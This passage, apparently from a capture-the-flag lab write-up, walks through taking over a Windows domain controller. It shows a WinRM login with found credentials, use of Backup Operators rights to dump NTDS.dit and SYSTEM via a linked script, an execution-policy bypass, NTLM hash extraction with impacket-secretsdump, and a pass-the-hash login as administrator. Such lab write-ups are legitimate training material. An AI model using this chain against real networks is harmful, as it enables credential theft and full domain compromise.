

That’s how it works 

we found another set of creds → `emily.oscars:Q!3@Lp#M6b*7t*Vt` 

as we don’t have more shares to enumerate let’s check if we can login with winrm using netexec

```bash
netexec winrm 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```



let’s login using evil-winrm

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```



let’s see what privileges do we have using `whoami /priv` 



and any interesting group membership `net user emily.oscars`



nice we are member of Backup operators let’s use https://github.com/G4sp4rCS/backup-operator-to-domain-admin-POC/blob/main/backupToDA.ps1 to dump the NTDS.dit and system from DC and then use impacket-secretdump to get the NTLM hash of the administrator

after downloading the script just upload it to target machine via upload command and bypass the execution policy using `powershell -ep bypass`



and run script via `.\BackupToDA.ps1` wait for few seconds and it will dump the SYSTEM SAM and SECURITY and NTDS.dit



nice now let’s download the SYSTEM and ntds.dit files





now we’ll use the  impacket-secretsdump to dump the NTLM hashes from ntds.dit

```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```



we got the administrator NTLM hash let’s use it to login using evil-winrm

```bash
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

